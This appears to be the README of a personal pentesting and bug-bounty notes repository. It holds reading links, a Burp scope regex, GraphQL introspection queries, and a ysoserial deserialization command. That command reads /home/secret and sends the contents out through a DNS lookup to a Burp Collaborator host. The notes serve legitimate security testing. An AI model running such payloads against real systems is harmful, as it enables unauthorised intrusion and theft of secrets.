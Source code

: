 # EasyG

EasyG started out as a script that I use to automate some information gathering tasks for PenTesting and Bug Hunting. Now it is more than that.

Here I gather all the resources about PenTesting and Bug Bounty Hunting that I find interesting: notes, payloads that I found useful and many links to blogs and articles that I want to read (because having a lot of bookmarks bothered me) and more.

**To Read list**
- https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application
- https://blog.yeswehack.com/yeswerhackers/abusing-s3-bucket-permissions/
- https://portswigger.net/web-security/ssrf
- https://portswigger.net/web-security/jwt
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/blogposts.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/media.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/mobile.md
- https://www.bugcrowd.com/hackers/bugcrowd-university/
- https://www.microsoft.com/en-us/msrc/bounty-example-report-submission?rtc=1

**Blog / Writeups / News**
- https://pentester.land/list-of-bug-bounty-writeups.html
- https://hackerone.com/hacktivity
- https://portswigger.net/research
- https://www.skeletonscribe.net
- https://cvetrends.com/

**Burp suite**

To add a domain + subdomains in advanced scopes: `.*\.test\.com$`

**Ysoserial**

Because of `Runtime.exec()`, ysoserial doesn't work well with multiple commands. After some research, I found a way to run multiple sys commands anyway, by using `sh -c $@|sh . echo ` before the multiple commands that we need to run. Here's an example:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sh -c $@|sh . echo host $(cat /home/secret).dctoqqar8fjkhoahnzjvxw9980ev2k.burpcollaborator.net' | gzip | base64
```

**GraphQL**

GraphQL Introspection query

```
{"query": "{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

```
{query: __schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}# Write your query or mutation here
```

```
{"operationName":"IntrospectionQuery","variables":{},"query":"query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      locations\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n}\n"}
```
